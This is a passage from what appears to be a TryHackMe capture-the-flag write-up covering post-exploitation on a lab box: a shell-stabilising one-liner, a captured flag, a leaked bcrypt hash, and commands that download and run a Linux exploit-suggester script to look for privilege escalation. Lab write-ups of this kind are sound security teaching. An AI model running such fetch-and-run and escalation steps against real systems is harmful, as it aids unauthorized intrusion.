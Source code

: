 shell:

![](/assets/img/thm/yotj/14.png)


stabilising shell:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

# Flag 1
![](/assets/img/thm/yotj/15.png)

```
THM{MjBkOTMyZDgzNGZmOGI0Y2I5NTljNGNl}
```

# Privilege Escalation

looking at web directories:

![](/assets/img/thm/yotj/16.png)

```
admin$2y$10$q1BI3CSqToALH2Q1r2weLeRpyU7QbonizeVxJnPIieo/drbRSzVTa
```

possible bcrypt hash. Doesn't look like I can crack it.

hmm, so ssh svr on port 22 is a honey pot ;-;

![](/assets/img/thm/yotj/17.png)

hmm the server file :O 

![](/assets/img/thm/yotj/18.png)

Could be a bof . Found nothing I could figure out.

So running down the rabbit hole for more than a hour doing manual enumeration avoiding kernel exploits. Lets try using LES.

![](/assets/img/thm/yotj/19.png)

running LES:
```sh
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
chmod +x les.sh
./les.sh
```

output:
```sh
Available information:

Kernel version: 4.15.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 18.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

79 kernel space exploits
```